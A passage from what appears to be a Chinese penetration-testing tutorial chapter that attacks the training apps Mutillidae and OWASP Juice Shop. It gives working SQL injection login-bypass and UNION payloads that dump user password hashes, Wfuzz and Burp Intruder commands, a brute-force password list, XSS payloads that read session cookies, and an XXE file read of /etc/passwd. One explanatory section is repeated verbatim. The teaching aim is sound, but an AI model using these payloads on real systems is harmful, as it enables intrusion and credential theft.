> ➢ 点击顶部菜单中的“Proxy”（代理）
> ➢ 打开嵌入浏览器
> ➢ 关闭“intercept”（拦截）


> ➢ 访问你的 Mutillidae 服务器


在 Mutillidae 中，从菜单中选择 OWASP 2017，然后选择 `A1 Injection (SQL)` > `SQLi Bypass Authentication` > 最后点击“Login”。

> ➢ 在 `Burp Suite` 中开启 Intercept（拦截）
> ➢ 现在，为用户名和密码输入随机名称（Canaries）并点击“Login”。

`Burp Suite` 将捕获登录尝试，如下所示：


最重要的部分是屏幕上的最后一行。它将列出我们在执行自动化攻击时需要使用的确切 Post 请求。我们只需要包含登录表单的网页地址以及捕获的请求。有了这些信息，我们就可以构建模糊（fuzzing）请求。我们只需要一个字典列表，你可以使用 `Seclists` 中的任何 SQLi 字典列表，但我从其中一个列表中提取了几个，并创建了一个名为 `test.txt` 的短字典列表。

我使用的单词是：

> `" or 1=1`
> `" or 1=1#`
> `" or 1=1--`
> `" or 1=1/*`
> `' or 1=1`
> `' or 1=1#`
> `' or 1=1--`
> `' or 1=1/*`

我们已经准备好使用 `Wfuzz` 设置自动化测试了。

`Wfuzz` 与 `FFuF` 非常相似，虽然没有那么快，但许多命令开关是相同的，包括“金丝雀”单词 `FUZZ`。当我们构建 SQL 注入测试时，将使用字典列表 (`-w`)、URL 地址 (`-u`) 和 Post 数据 (`-d`)。我们需要做的是将 Post 数据中的“Username”替换为我们的关键字 `FUZZ`。添加 `-c` 来启用颜色，让它运行吧！

> ➢ `wfuzz -c -w /home/kali/Downloads/test.txt -u http://172.24.1.245/mutillidae/index.php?page=login.php -d "username=FUZZ&password=Bob&login-php-submit-button=Login"`
> （所有命令写在一行，不要换行）


`Wfuzz` 随后将读取字典并产生大量的 Post 请求，字典中的每个条目对应一个请求。它将显示每个请求的返回结果。

如下：


我们寻找的是“302 – Redirects”（重定向）。我们有一个 302 对应于负载 `' or 1=1#`。我们现在只需要回到登录页面，看看该负载或 SQL 注入命令是否有效。


我们变成了 Admin（管理员）！


当然，这个示例简单到我们可以直接手动输入，但这里的目的是观察它是如何自动化的。

## 速度比较

在离开本章之前，我只想快速提到最后一点——测试速度。在任何安全测试中，速度和隐蔽性都非常重要。一如既往，手动测试更具隐蔽性，但如果你需要快速执行自动化测试（为了认证实验室或 CTF），哪个工具更快？

让我们快速比较一下 `FFuF`、`WFuzz` 和 `Dirb`。我们没有介绍 `Dirb`，但它是一个旧的 Web 扫描和模糊工具，默认包含在 Kali 中。我设置了一个简单的速度测试——每个工具使用相同的字典对相同的目标执行相同的 Web 内容扫描。

以下是结果：


如所示，用 Go 语言编写的 `FFuF` 比另外两个快得多。它确实名副其实。这种额外的速度在何处有用？它让使用更大的字典列表进行模糊变得快得多。例如，我们可以使用大型的 `seclists` Web-Content 目录字典来尝试寻找隐藏且可能有趣的文件。


此搜索发现了目标，包括下面列出的那些。


如果我们访问 Mutillidae 并检查这些目录，我们会发现一些有趣的东西。

比如密码！


你说这不太现实，好吧，让我们检查一下配置目录。


该目录以全局可读的 XML 文件形式包含了所有用户和密码。还有其他的配置面板和数据也是全局可读的。我把寻找这些内容作为读者的练习。

## 结论

在本章中，我们查看了一个类似 CTF 的测试平台——Metasploitable 3 Linux。我们还涵盖了 `Burpsuite`、`Wfuzz` 和 `FFuF` 的使用。Metasploitable 3 是一个极佳的学习和游戏平台。如果你想找到所有的卡牌，尽管去吧！有些非常狡猾且难以发现。网上有很多写报告和操作指南。和任何 CTF 一样，它是非常好的练习。享受这段旅程！

## 参考文献与引用

> ➢ 16667/ Metasploitable-3-CTF - [`github.com/16667/Metasploitable-3-CTF/blob/master/Introduction/Introduction.md`](https://github.com/16667/Metasploitable-3-CTF/blob/master/Introduction/Introduction.md)
> ➢ Metasploitable3 Community CTF - Walkthrough(ish) - [`darkglade.com/2017/12/12/metasploitable3-community-ctf-walkthroughish/`](https://darkglade.com/2017/12/12/metasploitable3-community-ctf-walkthroughish/)
> ➢ Metasploitable3– Pentesting the Ubuntu Version (1) - [`www.thomaslaurenson.com/blog/2018-07-08/metasploitable3-pentesting-the-ubuntu-version-1/`](https://www.thomaslaurenson.com/blog/2018-07-08/metasploitable3-pentesting-the-ubuntu-version-1/)
> ➢ Metasploitable3– Pentesting the Ubuntu Version (2) - [`www.thomaslaurenson.com/blog/2018-07-09/metasploitable3-pentesting-the-ubuntu-version-2/`](https://www.thomaslaurenson.com/blog/2018-07-09/metasploitable3-pentesting-the-ubuntu-version-2/)


下载与你使用的 NodeJS 版本 (`nodejs -v`) 匹配的最新版本 Juice Shop。访问工具 GitHub 上的“releases”（发布）页面。

> ➢ 解压下载文件 (`tar zxvf filename.tgz`)
> ➢ 进入 Juice Shop 文件夹
> ➢ 输入, “npm start”


> ➢ 访问 “localhost:3000”


恭喜，我们有一个存在漏洞的 Juice Shop 了！

## Burp Suite 界面

你可以通过多种方式启动 Burp - 在终端窗口中输入 `burpsuite` 或从 Web 应用程序菜单中选择。启动时，系统会询问你几个问题，在提示时选择“temporary project”（临时项目）和“Use Burp defaults”（使用 Burp 默认设置）。

Burp 启动后，你将看到由界面部分组成界面：

1. > 工具菜单 (Tool Menu)
2. > 过滤器选项菜单 (Filter Options Menu)
3. > 站点地图/范围窗口 (Site Map/ Scope Window)
4. > URL 信息窗口 (URL Information Window)
5. > 请求窗口 (Request Window)
6. > 响应窗口 (Response Window)


基本上，你从 #1 选择目标或工具。在 #2 中设置你需要的过滤器选项。在 #3 中查看并选择网站范围和站点地图。在 #4 中查看单个链接信息，最后在 #5、#6 中查看 HTML 请求/响应。

工具菜单 (#1) 包含了你在处理网站时可以执行的可用操作。这些包括在本章中将使用的标签页：

> ➢ TARGET – 显示站点地图和项目范围 (Scope)
> ➢ PROXY – 用于设置和控制拦截代理 (Intercepting Proxy)
> ➢ INTRUDER – 自动化攻击
> ➢ DECODER – 用于对多种格式的文本进行编码/解码
> ➢ COMPARER – 用于比较网页/响应之间的差异

站点地图窗口 (#3) 显示了通过 Burp 被动扫描获得的所有目标 URL 链接 - 这种扫描是通过遍历网页中的链接来执行的。或者是在主动爬虫（spidering）期间发现的页面。最后，请求/响应窗口 (#5, #6) 显示了你可以查看和操纵的实际 HTML 代码。

我一直是一个“在做中学习”的人，所以让我们直接开始，通过一些功能示例来看看如何使用 Burp Suite 工具。

## Burp Suite 目标站点地图和爬虫

以前你必须在网络浏览器中手动设置代理。较新版本的 Burp 现在带有一个内置 Chromium 浏览器，因此你不需要对默认浏览器进行任何更改。只需点击“Proxy”，然后点击“Open Browser”即可启动内置代理浏览器。


现在我们需要关闭 Burp 中的拦截代理。

点击“Intercept is on”（拦截已开启）标签页将其切换关闭：


当它关闭时，它将允许网页正常加载而不受中断。当拦截（intercept）开启时，Burp 将激活拦截代理并在每个阶段（发送/接收）停止网页处理，并在允许传输继续之前请求许可。在在本教程的稍后部分中，我们将经常使用开启拦截的 Burp，但对于爬虫，你会希望它是关闭的。

现在，在你的 Kali 系统上，在浏览器中使用 “localhost:3000” 访问 Juice Shop：


现在，如果你查看 Burp，你应该发现在“Target”标签页下，它已经在站点地图窗口中自动填充了许多信息：


我们只想在本地的 Juice Shop 系统上运行，因此我们需要修改我们的“scope”（范围）。

1. > 点击你的 Juice Shop 地址前的三角形
2. > 现在单击 `localhost:3000` 将其高亮显示。
3. > 右键点击它并点击“Add to Scope”（添加到范围）：


4. > 让我们清理一下我们的站点地图列表，点击过滤器菜单栏（界面图片中的 #2）并点击“Show only In-Scope Items”（仅显示范围内的项目）：


我们现在有了一个整洁的站点地图：


如果你已经有一段时间没用过 Burp，并且正在菜单上寻找“Spider”（爬虫）标签页，你会找不到它的。如果你点击“DashBoard”，你会看到 Burp 正在被动扫描你的目标。显然，在这种情况下设置范围并不那么重要。但当你处理一个与其他实时目标交互的实时目标时，你必须确保你只测试你想测试的目标，而不是范围外的网站或服务器。

## 创建用户

让我们为 Juice Shop 创建测试用户。

> ➢ 点击“account”（账户),“Login”（登录）和“Not yet a customer”（还客户）
> ➢ 创建测试用户


我刚刚使用了了虚构的名字 `dan@test.com`。注册，然后登录以确保运行正常。快速浏览一下熟悉一切。完成后注销。别忘记你的密码！其实这并不重要，本章的重点是获得对 Juice Shop 的“未经授权”访问！我们将在下一个示例中使用此账户。

## Burp Suite 拦截代理

如前所述，当拦截代理开启时，它将拦截任何通常发送到目标网页的信息，并允许你查看和操纵代码。通过这样做，你可以查看网站正在使用的变量，并在发送到 Web 服务器之前将其更改为不同的内容。让我们实际操作。

你需要检查“Proxy”标签页下的 Options 菜单，并确保勾选了“Intercept Client Requests”（拦截客户端请求）：


查看服务器响应也有帮助，为此请确保勾选了“Intercept Server Responses”（拦截服务器响应）：


1. > 现在，将拦截代理设置为关闭：


2. > 在 Juice Shop 中，点击“Account”和“Login”，但不要登录！


3. 现在，在 Burp 中开启拦截代理
4. > 然后在程序中，输入“test”作为用户名和密码并点击登录

当你点击登录时，你会发现浏览器似乎冻结了。其实它并没有，Burp 拦截了我们的尝试！

5. > 回到 Burp 并检查 Proxy 页面。你应该看到如下所示的内容：


在此屏幕出现之前，你可能需要点击几次“forward”（前进）。

Burp 获了登录请求并持有它。此时，我们可以看到发送到服务器的实际代码。在顶部你可以看到 `POST /user/login HTTP/1.1` 命令，在底部你可以看到输入的用户名和密码。你可以更改页面上的任何内容，然后点击前进将修改后的表单发送到服务器。注意变量和数据经过颜色编码。输入变量是蓝色的，输入的数据是绿色的。

现在，将用户名和密码从“test”更改为你刚刚创建的账户名称和密码。我使用了之前创建的 `dan@test.com` 账户。

> ➢ 现在点击“Forward”按钮，我们修改后的请求被发送到服务器
> ➢ 再次按下“Forward”最终完成登录
> ➢ 关闭拦截并点击 Juice Shop 中的“Account”

当登录完成后，你应该看到我们已经成功登录了 Juice Shop！不是输入到网站登录界面中的“test”用户，而是我们刚刚创建的用户：


这只是一个关于如何拦截网页表单并对其进行操纵以放入我们想要的数据的简单示例。这种能力在本章稍后的部分将非常有用。拦截是一个极好的工具，但我向你，在你习惯它的工作方式之前，你会忘记并一直开启它，然后奇怪为什么你的网页没有加载！

## Juice Shop - 基础 SQL 注入

现在让我们转向基础 SQL 注入。在 SQL 注入攻击中，我们尝试通过修改后的输入与网站底层的 SQL 数据库交互。最基础的 SQL 注入攻击之一是 `' or 1=1--`。让我们看看它是如何工作的。

1. > 确保拦截代理处于“关闭”状态。
2. > 从 Juice Shop 注销。


### 3. 现在在登录界面，在用户名输入 `“' or 1=1-- ”`。确保双横线后有一个空格。这只是非常基础的 SQL 注入测试。

### 4. 密码输入任何内容并点击“登录 (Log in)”：


你将立即以 admin 身份登录！除非你观察这种攻击如何通过欺骗 SQL 语句使其无论如何始终为真，从而满足底层 SQL 语句，否则这可能不合逻辑。查看此最简单的方法是通过输入表单向 SQL 服务器发送一条无效命令，看看是否会收到错误消息。

> ➢ 退出 Juice Shop
> ➢ 再次进入账户界面，但在登录之前，将拦截代理（intercepting proxy）“开启”

在 Juice Shop 中，用户名和密码都使用 `’test` 进行登录。带有单引号的单词 `’test`：


在 Burpsuite 中点击“前进 (forward)”，直到无法再次点击为止。在操作过程中查看 Proxy 中的通信情况。你会看到它将用户名和密码 `’test` 发送到应用程序，然后是几个响应。

现在，在 Proxy 中，点击“http history”：


这里包含了发送到 Web 服务器和从其返回的所有命令的完整历史！

点击上方图中所示的登录请求。你将在“Response (响应)”标签页下看到发送到服务器的完整登录副本。

如下图所示：


注意“Response (响应)”标签页 - 点击它查看对该请求响应而发送的代码。


查看上方图中高亮的行：

`"SELECT * FROM Users WHERE email = ''test' AND password =”`

这准确地告诉了用户名在 SQL 语句中是如何使用的。SQL 语句正在寻找单引号之间的用户名。但当我们输入用户名时，我们输入的是 `‘testtest`。

这样做是将单引号（`’`）作为用户名的一部分传递的。当单引号被放入 SQL 语句时，它实际上关闭了用于用户名的起始单引号。这满足了 SQL 语句，导致它将额外的单词 `test` 包含在 SQL 语句中——这不是一个有效的 SQL 命令。当我们使用 `' or 1=1--` 时，它关闭了开头的用户名单引号，然后包含了一个有效的 SQL 比较语句（`or 1=1`），最后在末添加了 `-- `。`1=1` 始终为真。“横线、横线、空格”也是一个有效的 SQL 语句；它是注释命令，告诉 SQL 忽略行的其余部分！

因此，我们输入的 SQL 语句从：

`Query: SELECT username FROM accounts WHERE username='George';`

（这本是一个有效的请求，选择用户名 George）变为：

`Query: SELECT username FROM accounts WHERE username='' or 1=1-- ';`

这不包含用户名（注意那两个连在一起的单引号，这通常会包含用户名），但它包含了比较语句 `or 1=1`，这是一个真语句。因此，在登录时，它只是简单地从数据库中提取出第一个用户，即管理员！

## Juice Shop - 更进阶的注入

Juice shop 有多个可以被利用的路径。有不同的挑战需要不同水平的技能来解决。就像许多流行的 CTF 挑战一样，你可以在渗透测试中发现一些现实的内容，也有一些益智游戏类型的内容需要解决。Juice Shop 的创建者花费大量时间为该工具编写文档，涵盖了挑战和解决方案，所以我不会在上面花很多时间。我强烈建议读者查看 Juice Shop 文档。

让我们来看一些更复杂的 SQL 注入。在本节中，我们将针对 SQL 数据库架构并从数据库中提取一些敏感数据。我们将列出数据库的布局，然后利用这些知识提取所有的用户名和密码哈希——全部通过 SQL 注入。

### Juice Shop SQLi 攻击

这一切始于一次无意的搜索。我们的第一个任务是找到 SQL 注入的漏洞。我们知道登录存在漏洞，但让我们看看网站的搜索功能。这将有点不同，因为我们必须使用“盲 SQL 注入 (blind SQL injection)”。

在 Burpsuite 中点击“前进 (forward)”，直到无法再次点击。在过程中查看 Proxy 中的通信情况。你会看到它将用户名和密码 `’test` 发送到应用程序，然后是几个响应。

现在，在 Proxy 中，点击“http history”：


这里包含了发送到 Web 服务器和从其返回的所有命令的完整历史！

点击上方图中所示的登录请求。你将在“Response (响应)”标签页下看到发送到服务器的完整登录副本。

如下所示：


注意“Response (响应)”标签页 - 点击它查看对该请求响应而发送的代码。


查看上方图中高亮的行：

`"SELECT * FROM Users WHERE email = ''test' AND password =”`

这准确地告诉了用户名在 SQL 语句中是如何使用的。SQL 语句正在寻找单引号之间的用户名。但当我们输入用户名时，我们输入的是 `‘testtest`。

这样做是将单引号（`’`）作为用户名的一部分传递的。当单引号被放入 SQL 语句时，它实际上关闭了用于用户名的起始单引号。这满足了 SQL 语句，导致它将额外的单词 `test` 包含在 SQL 语句中——这不是一个有效的 SQL 命令。当我们使用 `' or 1=1--` 时，它关闭了开头的用户名单引号，然后包含了一个有效的 SQL 比较语句（`or 1=1`），最后在末添加了 `-- `。`1=1` 始终为真。“横线、横线、空格”也是一个有效的 SQL 语句；它是注释命令，告诉 SQL 忽略行的其余部分！

因此，我们输入的 SQL 语句从：

`Query: SELECT username FROM accounts WHERE username='George';`

（这本是一个有效的请求，选择用户名 George）变为：

`Query: SELECT username FROM accounts WHERE username='' or 1=1-- ';`

这不包含用户名（注意那两个连在一起的单引号，这通常会包含用户名），但它包含了比较语句 `or 1=1`，这是一个真语句。因此，在登录时，它只是简单地从数据库中提取出第一个用户，即管理员！


数据库表由列组成，为了从目标数据库中提取数据，你需要知道这些列的确切数量。进行盲 SQL 注入确实是一个尝试与错误的过程。没错，不断尝试并纠错！根据 SQL Lite 文档，数据库模式（Schema），基本上是数据库布局，可以在 `Sqlite_Master` 表中找到。如果我们能获取数据库模式，就可以尽情掠夺直到我们满意。但在此之前，我们首先需要找到数据库中使用的列数。

同样，这是一个尝试与错误的过程。我们将使用 `UNION SELECT` 命令，该命令允许我们在同一行中运行第二条 SQL 命令。然后我们将尝试不断增加列的数量，直到它成功为止。为了获得最佳效果，我们在这一部分将使用标准的 Firefox 浏览器，而不是 Burp 浏览器。

1. 我们的基础命令将是 `search?q=raspberry')) UNION SELECT`，我们将对其添加列数，并用 `FROM sqlite_master--` 完成结尾。

2. 让我们从 5 列开始：

```text
search?q=raspberry’)) UNION SELECT 1,2,3,4,5 FROM sqlite_master--
```

注意：示例使用了 `localhost:3000/rest/products/` 前缀，但为了简洁省略了。


嗯，那没用。

3. 尝试 6 列：

```text
search?q=raspberry’)) UNION SELECT 1,2,3,4,5,6 FROM sqlite_master--
```

同样的错误……

4. 继续增加列数，直到你获得有效的响应。

5. 在 9 列时，你应该会得到一个不同的消息。

```text
search?q=raspberry’)) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM sqlite_master--
```


正如屏幕顶部所示，“成功”！我们现在有了正确的列数，让我们提取数据库模式吧。我们所做的就是将列“1”改为“sql”来提取模式。

6. 输入 `search?q=raspberry’)) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master--`


我们现在有了数据库模式！它列出了所有可用表。现在，我们可以从任何一个表中提取数据。`Users` 表看起来很有趣。让我们仔细看看那个表。

### Juice Shop - 使用 SQL 注入提取用户名和密码哈希

到目前为止，我们已经通过 SQL 注入利用了 Juice Shop Web 应用，并成功提取了数据库模式，列出了数据库中所有可用表。现在，我们将从 `Users` 表中提取敏感数据。

1. 滚动到 `Users` 表。你会看到 `Id`、`username`、`password` 和 `email` 字段。它们听起来都用。


看起来我们拥有所需的一切！我们将使用与获取模式时完全相同的 SQL 注入方法，只需针对 `Users` 表进行修改。我们只需要 `Id`、`username`、`password` 和 `email`，所以我们将列数替换为这些值。

2. 输入 `search?q=raspberry’)) UNION SELECT id,username,password,email,5,6,7,8,9 FROM Users--`

我们所做的只是插入我们正在寻找的信息，并将从 `sqlite_master` 表切换到 `Users` 表。让我们看看结果如何！


我们现在有了管理员的用户名和账户密码哈希！我们还有其他 17 个账户的用户名和凭据。如果我们能破解它们，这可能会非常有用！

### Juice Shop - 破解管理员凭据

现在我们已经有了密码哈希，我们需要对其进行解密以获得明文密码。首先，我们需要找到哈希类型。我们可以使用 `HashID` 命令完成这一点。

1. 复制管理员密码。

2. 打开终端提示符。

3. 输入 `hashid 0192023a7bbd73250516f069df18b500 -j`

此命令将分析哈希并返回最可能的哈希类型。`-j` 将列出在密码破解程序 John the Ripper 中破解哈希时要使用的开关。


Hash ID 返回了多种可能性，为了节省时间，它是一个 MD5 哈希。我们现在可以使用 John the Ripper 破解该哈希。你可以破解单个哈希，也可以将它们全部复制到文本文件中并尝试使用 John 破解所有它们。这样做可能会给我们提供许多不同的账户来玩。

4. 将哈希复制到文本文件中。

5. 使用 John the Ripper 破解它们，输入 `john --format=raw-md5 --wordlist=/usr/share/wordlist/rockyou.txt JuiceShopPasswordFileName.txt`。

如下所示：


在很短的时间内 John 就破解了三个密码！当然，管理员密码真的非常简单，噢看，其中一个用户显然是《星际迷航》粉丝！到此，你已经有了管理员凭据，所以游戏基本上结束了。

### Juice Shop - 使用 Burp Intruder 和 Compare 自动化攻击

现在我们知道如何使用拦截来添加自己的数据，让我们看看如何通过 Burp 的 `Intruder` 和 `Compare` 功能将此用于攻击。Intruder 允许你对被捕获的代码运行自动化攻击。Compare 用于查找网站页面之间的差异；我们可以使用 compare 来确定自动化攻击何时成功了。首先，我们将查看如何使用 Intruder 自动化简单的 SQL 注入技术，然后看看它如何用于字典密码攻击。

### 自动化 SQL 注入示例

在上面的 SQL 注入示例中寻找列数花费了多次手动迭代。如果我们能用 Burp 自动化 SQL 注入命令呢？我们可以使用 Intruder 实现这一点。在这个示例中，我们将为上面尝试过的命令创建一个简单的文本列表，并让 Burp 为我们自动尝试它们。

`Sniper` 攻击针对单个变量；你可以在 Burp 中选择不同的攻击类型，使用多个有效负载攻击多个变量。但对于这个简单的示例，Sniper 效果良好。

1. 创建一个名为 `union.txt` 的文本文件并保存到桌面。包含以下命令：

```text
raspberry%27)) UNION SELECT 1 FROM sqlite_master--
raspberry%27)) UNION SELECT 1,2 FROM sqlite_master--
raspberry%27)) UNION SELECT 1,2,3 FROM sqlite_master--
raspberry%27)) UNION SELECT 1,2,3,4 FROM sqlite_master--
raspberry%27)) UNION SELECT 1,2,3,4,5 FROM sqlite_master--
raspberry%27)) UNION SELECT 1,2,3,4,5,6 FROM sqlite_master--
raspberry%27)) UNION SELECT 1,2,3,4,5,6,7 FROM sqlite_master--
raspberry%27)) UNION SELECT 1,2,3,4,5,6,7,8 FROM sqlite_master--
raspberry%27)) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM sqlite_master--
```

注意，这只是我们之前使用的 Union Select 语句，只是列数递增。

2. 现在，在 `Proxy > HTTP History` 中，获取我们刚刚使用 `q=raspberry’` 的搜索请求之一。

注意：它将单引号转换为 `%27`。


3. 现在在拦截的文本任意位置点击右键并选择 `Send to Intruder`：


4. 现在，点击 Burpsuite 顶部的 `Intruder` 标签页。

5. 点击 `Positions` 标签：


注意 raspberry 被高亮了。Burp 允许我们用刚刚创建的 Union 文本文件中的文本自动替换标记标记。不过还有其他数据点被高亮了，我们需要清除它们并只选择我们想要的那个。

6. 在右侧菜单上点击 `clear`，这将删除所有标记点。

7. 现在只需在 GET 命令行上高亮值 `raspberry%27`。


8. 点击右侧菜单上的 `add`

9. Burp Suite 将高亮单词 `Raspberry%27`。现在我们已经设置了想要攻击的字段，我们需要设置负载（payload）。

10. 点击 `payloads` 标签页

11. 在 `Payload Sets > Payload type` 下的下拉框中选择 `Runtime file`。

12. 在 `Payload Options [Runtime File]` 字段中，选择我们的 `union.txt` 文件：


13. 在屏幕右上角，点击 `Start Attack`。


会弹出一个警告框，显示 Burp 免费版本的 `Intruder` 函数受时间限制。攻击仍然有效，但耗时会比使用该程序的付费版本要长得多。Burp 随后将从文本文件中提取每一个 `union select` 语句并将其插入用户名字段。它会将每个单独的响应记录为一个请求编号。

> ➢ 当自动化攻击完成后，点击状态为“500”的其中一条“union select”行。
> ➢ 点击底部的窗口中的“response（响应）”选项卡。
> ➢ 然后点击“render（渲染）”选项卡：


当你找到列数正确的某一项时，你会发现状态码为 200 且长度发生了变化。如果你查看响应界面，你会看到这个：


> 状态：成功！

这只是我们可以进行自动化攻击的许多方法之一。我只是想展示在 `Burp Suite` 中可以实现。

## Juice Shop - Burp Intruder 字典列表攻击

如果我们能够获取网站管理员的用户名，但无法获取他的密码会怎样？我们可以使用 `Burp` 执行密码暴力破解攻击。让我们看看能否通过 `Intruder` 使用字典列表破解密码来获取管理员账户的权限。基本上，我们向 `Burp` 提供一个可能的密码列表，`Burp` 尝试使用每个密码进行登录，然后记录结果。Burp 免费版本的 `Intruder` 功能受时间限制，这意味着它会大大减慢自动化攻击的速度（每秒约攻击一次），对于大型字典列表，这可能花费极其大量的时间。因此，我们不使用 `Kali` 自带的字典列表之一，而是创建一个自己的短字典列表来使用。

使用你喜欢的文本编辑器，创建一个名为 `juicepass.txt` 的文件并将其保存到桌面。输入以下密码：

> 12345
> password
> qwerty
> P@$$word
> Admin
> Dragon
> Pass12345
> admin123

完成后，它看起来应该像这样：


现在我们的密码列表已完成，让我们在 Juice Shop 的暴力破解攻击中使用它。

1. 在 `Burp` 浏览器中打开 Juice Shop 账户登录页。
2. 开启 `Burp` 中的 `Intercept（拦截）`。
3. 用户名输入“admin@juice-sh.op”。
4. 密码输入“admin”并点击 Login（登录）：


5. 点击“forward（前进）”，直到在 `Burp Proxy` 中看到我们的登录请求。
6. 右键并点击“Send to Intruder（发送到 Intruder）”：


7. 点击“Intruder”菜单选项卡。
8. 现在点击“Positions（位置）”选项卡。


注意有几部分数据被高亮显示了。此时我们只想关注管理员的密码，因此我们需要清除所有选中的点，然后选择我们自己的。

9. 在右侧菜单上点击 `clear（清除）`，这将删除所有标记的点。
10. 现在只需在“password（密码）”字段中高亮值“admin”：


11. 点击右侧菜单上的 `add（添加）`

`Burp Suite` 现在将高亮密码字段中的单词“admin”。现在我们已经设置了想要攻击的字段，我们需要设置载荷（payload）。

12. 点击“payloads（载荷）”选项卡
13. 从“Payload Type（载荷类型）”下拉框选择“Runtime file（运行时文件）”：


14. 选择我们创建的文件 `/home/kali/juicepass.txt`：


15. 现在点击右上角的“Start Attack（开始攻击）”。

自动化攻击完成后，你应该看到这样的界面：


注意“admin123”的状态信息不同，状态 200 表示登录成功！


同样注意，在响应窗口中，我们似乎捕获网站管理员的访问令牌（token）。我在想这是否有助于解决 Juice Shop 中的其他挑战？剧透预警——是的的！

## Juice Shop - 使用 Burp Comparer

`Burp` 的比较功能允许你快速比较一个请求/响应与另一个之间的结果。这在我们使用自动化攻击并想要比较结果以发现差异时非常有用。

从上面的自动化字典列表攻击开始：

1. 右键点击状态为 401 的请求之一并点击“Send to Comparer (Response）（发送到比较器（响应））”：


我们需要对比对象，让我们使用请求 8，即状态 200 的响应。你可能需要最小化 `Burp Suite` 来再次找到攻击结果窗口，它有时会隐藏。

2. 右键点击请求 8 并点击“Send to Comparer (Response)”：


3. 现在点击“Comparer”菜单选项卡。

你将看到我们发送到比较器的两个响应。在右下角选择按“Words（单词）”进行比较。两个页面响应将并排显示，并用颜色编码映射显示差异。点击“Sync View（同步视图）”框并向下滚动页面寻找差异。

在第一个窗口中，我们将看到“401 Unauthorized（未授权）”错误和单词“Invalid email or password（电子邮件或密码无效）”：


在另一个窗口中，我们找到了 200 OK 响应和一个身份令牌！


所以，intruder 中使用密码“admin123”的请求 8 似乎有效了！但让我们确认一下，去尝试使用用户名“admin@juice-sh.op”和密码 admin123 登录 Juice Shop（别忘记关闭拦截代理）：


看起来我们有一个赢者了！通过使用 intruder，我们可以在 `Burp` 中创建自动化攻击。然后我们可以获取这些攻击的输出并放入 `Comparer` 中，以找出哪种攻击实际上是有效的。虽然由于时间限制，在免费版本中这并不实用，但展示了完整版的一些更高级的功能。

花几分钟时间查看 Intruder 内置的其他攻击类型：

> ➢ Battering Ram（撞击器）
> ➢ Pitchfork（分叉器）
> ➢ Cluster Bomb（集群炸弹）

使用它们的过程与上述类似，但它们为你提供了更多使用多个载荷攻击多个变量的能力。

## Juice Shop - 跨站脚本攻击 (XSS)

在本节中，我们将通过 Juice Shop 查看跨站脚本 (XSS) 攻击。关于在 Juice Shop 中使用 XSS 脚本攻击你需要的所有知识都可以在工具作者的解决方案网站找到：

https://pwning.owasp-juice.shop/part2/xss.html#perform-a-dom-xss-attack

SQL 注入和 XSS 攻击是两种常见的 Web 应用程序攻击类型。我们在章节早些时候讨论了基本的 SQL 注入攻击。让我们花几分钟时间查看使用 Juice Shop 的 XSS 攻击。SQL 注入漏洞通常涉及 Web 服务器的数据库，而 XSS 则侧重于使用脚本攻击客户端。

### DOM XSS

在本节中，我们将通过修改 Juice Shop 函数以包含 JavaScript 来演示这种攻击。第一步是找到一个易受攻击的页面。由于我们已经在网站的搜索功能中发现了 SQL 注入漏洞，那么那里也是一个检查 XSS 漏洞的好好地方。

根据上一个练习练习，你应该已经以 Admin 身份登录了 Juice Shop。如果不是，请以该用户登录。我们将从一个基础脚本开始：`<iframe src="javascript:alert('Hello World!')">`。

1. 在网站搜索栏中，输入以下命令：

```html
<iframe src="javascript:alert('Hello World!')">
```


如果网站受到 XSS 攻击，我们应该得到一个弹窗：


这很好，但对于攻击者来说，除了验证网页容易反射型 XSS 攻击之外没有执行任何有用操作。那么，我们还能做什么？

2. 我们可以使用代码获取用户的会话 cookie：

```html
<iframe src="javascript:alert(document.cookie)">
```

这应该返回安全级别会话 ID cookie：


我们现在拥有了用户的访问令牌。如果你检查，会发现它与我们从 SQL 攻击部分获取的令牌相同。你可以使用用户的访问令牌执行多种攻击，更多信息请参阅 Juice Shop 文档。

在离开 Juice Shop 之前，我想看另一种攻击 - XML 外部实体（XXE，也简写为 XEE）。

## Juice Shop - XML 外部实体 (XXE) 攻击

Juice Shop 文档对这种攻击有很好的介绍，因此我将简要介绍。基本上，如果一个网站接受并响应某些 XML 请求，你可能能够从 Web 服务器的文件系统中读取敏感数据。XML 外部实体用于从外部源提取额外数据并将其插入文档中。如果网站存在漏洞，攻击者可以利用此从服务器提取敏感数据。我们可以在 Juice Shop 中看到这一演示。

Juice Shop XXE 解决方案文档 - [`pwning.owasp-juice.shop/appendix/solutions.html#retrieve-the-content-of-cwindowssystemini-or-etcpasswd-from-the-server`](https://pwning.owasp-juice.shop/appendix/solutions.html#retrieve-the-content-of-cwindowssystemini-or-etcpasswd-from-the-server)

现在我们已经有了管理员登录权限，可以从服务器提取数据。注意，我们拥有的是 Web 应用管理员密码，而不是实际访问底层服务器的文件服务器账户。但使用 Web 应用管理员凭据，我们可以利用 XML 漏洞，允许我们从 Web 服务器的文件系统中提取文本。

1. 在 Burpsuite 浏览器中，以 Admin 身份登录 Juice Shop，点击页面左上角的三线菜单按钮。
2. 点击“Complaint”（投诉）。
3. 复制 Juice Shop 解决方案页面上的文本，并以 XML 扩展名保存。


注意第 4 行`Entity xxe` 被配置为名为 `///etc/passwd` 的 SYSTEM 文本文件。如果你了解目录遍历漏洞，你会立即理解这一点。如果没有，基本上 `///` 将路径指向 Web 服务器目录之外返回根目录。然后它从 `/etc/passwd` 文件中提取数据，该文件存储了 Web 服务器的用户信息。

4. 在网站的 Complaint 部分有一个上传文件的地方。点击“Choose File”，然后选择“all files”，最后选择你刚刚创建的 XML 文件。
5. 在消息框中输入一些文本并点击“submit”。


看起来什么都没有发生，但它确实发生了！

6. 现在，回到 Burpsuite 的 Proxy History（代理历史）。
7. 在 HTTP History 中查找 `File-upload` URL 列表。
8. 在左侧看到我们的请求，右侧是响应。

仔细观察响应：


来自 `/etc/passwd` 文件的内容！

我们还可以从服务器提取其他信息。服务器组（Server Group）信息怎么样？

9. 在你的 XML 文件中，只需将路径更改指向组文件，并将其保存为不同的 XML 文件名。

如下所示（图片仅显示了请求的顶部）：


10. 在 Complaint 部分上传新文件。你可能需要跳转到另一个页面再回来，这样它就不会从缓存中提取旧文件。

高级用户可能想在代理历史中的请求上点击右键并将其发送到 repeater（重复器）。在 repeater 中，你只需更改请求中的文件名并点击“send”。

11. 发送“complaint”后，查看代理历史中的新文件上传。


